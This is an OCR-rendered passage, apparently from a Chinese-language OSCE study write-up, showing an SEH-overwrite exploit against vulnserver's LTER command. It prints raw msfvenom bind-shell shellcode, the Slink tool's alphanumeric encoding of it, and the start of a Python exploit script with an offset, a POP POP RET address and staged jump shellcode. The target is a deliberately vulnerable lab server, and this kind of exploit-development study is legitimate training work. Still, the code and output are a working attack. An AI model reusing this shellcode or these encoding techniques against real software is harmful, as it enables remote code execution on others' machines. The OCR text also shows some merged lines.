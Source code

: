 MSF 毒液结合壳

我们的下一步将是编码由`msfvenom`生成的外壳代码。我们肯定可以手动完成这项工作；然而，我们将使用一个由@ihack4falafel 创建的名为 [Slink](https://github.com/ihack4falafel/Slink) 的出色编码器。

```
**### Encoding with Slink**root@kali:/opt/Slink# python Slink.py 
Enter your shellcode: \x89\xe7\xba\x16\xa7\xf4\x0b\x2b\xc9\xb1\x53\x83\xc7\x04\x31\x57\x0e\x03\x41\xa9\x16\xfe\x91\x5d\x54\x01\x69\x9e\x39\x8b\x8c\xaf\x79\xef\xc5\x80\x49\x7b\x8b\x2c\x21\x29\x3f\xa6\x47\xe6\x30\x0f\xed\xd0\x7f\x90\x5e\x20\x1e\x12\x9d\x75\xc0\x2b\x6e\x88\x01\x6b\x93\x61\x53\x24\xdf\xd4\x43\x41\x95\xe4\xe8\x19\x3b\x6d\x0d\xe9\x3a\x5c\x80\x61\x65\x7e\x23\xa5\x1d\x37\x3b\xaa\x18\x81\xb0\x18\xd6\x10\x10\x51\x17\xbe\x5d\x5d\xea\xbe\x9a\x5a\x15\xb5\xd2\x98\xa8\xce\x21\xe2\x76\x5a\xb1\x44\xfc\xfc\x1d\x74\xd1\x9b\xd6\x7a\x9e\xe8\xb0\x9e\x21\x3c\xcb\x9b\xaa\xc3\x1b\x2a\xe8\xe7\xbf\x76\xaa\x86\xe6\xd2\x1d\xb6\xf8\xbc\xc2\x12\x73\x50\x16\x2f\xde\x3d\xdb\x02\xe0\xbd\x73\x14\x93\x8f\xdc\x8e\x3b\xbc\x95\x08\xbc\xc3\x8f\xed\x52\x3a\x30\x0e\x7b\xf9\x64\x5e\x13\x28\x05\x35\xe3\xd5\xd0\xa0\xeb\x70\x8b\xd6\x16\xc2\x7b\x57\xb8\xab\x91\x58\xe7\xcc\x99\xb2\x80\x65\x64\x3d\xaf\xce\xe1\xdb\xc5\x20\xa4\x74\x71\x83\x93\x4c\xe6\xfc\xf1\xe4\x80\xb5\x13\x32\xaf\x45\x36\x14\x27\xce\x55\xa0\x56\xd1\x73\x80\x0f\x46\x09\x41\x62\xf6\x0e\x48\x14\x9b\x9d\x17\xe4\xd2\xbd\x8f\xb3\xb3\x70\xc6\x51\x2e\x2a\x70\x47\xb3\xaa\xbb\xc3\x68\x0f\x45\xca\xfd\x2b\x61\xdc\x3b\xb3\x2d\x88\x93\xe2\xfb\x66\x52\x5d\x4a\xd0\x0c\x32\x04\xb4\xc9\x78\x97\xc2\xd5\x54\x61\x2a\x67\x01\x34\x55\x48\xc5\xb0\x2e\xb4\x75\x3e\xe5\x7c\x95\xdd\x2f\x89\x3e\x78\xba\x30\x23\x7b\x11\x76\x5a\xf8\x93\x07\x99\xe0\xd6\x02\xe5\xa6\x0b\x7f\x76\x43\x2b\x2c\x77\x46
Enter shellcode variable name: stage4
[!] Shellcode size is not divisible by 4
[+] Padding shellcode with 2 NOPS..
[*] Encoding [90904677]..
[+] No bad character found, using default encoder..
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x23\x50\x50" ## add  eax, 0x50502333
stage4 += "\x05\x44\x23\x40\x40" ## add  eax, 0x40402344
stage4 += "\x50"                 ## push eax
[*] Encoding [2c2b4376]..
[+] No bad character found, using default encoder..
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x22\x16\x16" ## add  eax, 0x16162233
stage4 += "\x05\x43\x21\x15\x16" ## add  eax, 0x16152143
stage4 += "\x50"                 ## push eax
...snip...
```

一旦 Slink 完成了 bind shell 的编码，就将有效负载放在我们的`ESP`对齐 shell 代码旁边。

## 最终利用

```
**###** [**Final_lter.py**](https://github.com/bigb0sss/OSCE/edit/master/vulnserver/LTER%20-%20SEH%20Overwrite/final_lter.py) **(Source by bigb0ss)**import socket
import struct
import os
import sysvuln_command = "LTER _.?"
crash = 4000
offset = 3520
seh = struct.pack("<I", 0x6250120b)        # POP POP RET**# 1st Stage Shellcode (Short JMP - nSEH)**
stage1 = ""
stage1 += "\x75\x08"                       # JNZ SHORT [+0x10] = Jump if ZF is not 0
stage1 += "\x74\x06"                       # JZ SHORT [+0x8] = Jump if ZF is 0**# 2nd Stage Shellcode (Short JMP - Encoded \xEB\x80)**
stage2 = ""
stage2 += "\x54"                           # PUSH ESP 
stage2 += "\x58"                           # POP EAX
stage2 += "\x66\x05\x59\x13"               # ADD AX,0x1359 
stage2 += "\x50"                           # PUSH EAX
```